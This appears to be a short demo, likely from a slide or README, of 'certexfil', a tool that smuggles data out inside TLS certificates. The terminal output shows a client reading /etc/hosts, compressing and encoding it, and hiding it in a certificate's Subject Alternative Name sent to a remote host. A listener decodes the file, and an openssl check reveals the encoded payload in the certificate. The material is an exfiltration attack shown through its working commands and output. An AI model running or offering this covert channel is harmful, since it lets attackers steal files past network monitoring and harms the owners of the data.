

# Client                              Server
$ ./certexfil --host remote --payload /etc/hosts
2019/05/31 18:52:23 [*] Reading from file..
2019/05/31 18:52:24 [D] Payload (raw)  --> 127.0.0.1	...(225 bytes)
2019/05/31 18:52:24 [D] Payload (Prepare()) --> �...		(173 bytes)
2019/05/31 18:52:24 [*] Generated custom cert with payload
$ ./certexfil --listen
2019/05/31 22:51:01 [*] Starting listener..
2019/05/31 22:52:24 [*] Payload received: H4sIAAAAAAAC/0TNMa7DIAwG4DmcwtKbH4IMqcQNunXoBQgxDaoDCJOmx69o08abP1v/r/uTVFJJ3VFylubEVXxMS91tIVYsy1pRiD+4zgg+EaUtxBtQiMhgC8KEHIodqV0LnC+PAZzNb2h5LIzR0Cbk4f9Xs28pj9bdhUeljFHHS8QqvD9wcZZrLujDs3nfMptbopgm5B37L5a0ViwsXgEAAP//pJPCNuEAAAA=
2019/05/31 22:52:24 [*] Payload decoded: 127.0.0.1	localhost
127.0.1.1	wintermute

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
$ openssl x509 -in ./CERTS/client_cert.pem -text -noout | grep -A 1 "Subject Alternative Name" | cut -c1-500
    X509v3 Subject Alternative Name:
 DNS:remote,DNS:H4sIAAAAAAAC/0TNMa7DIAwG4DmcwtKbH4IMqcQNunXoBQgxDaoDCJOmx69o08abP1v/r/uTVFJJ3VFylubEVXxMS91tIVYsy1pRiD+4zgg+EaUtxBtQiMhgC8………………………………………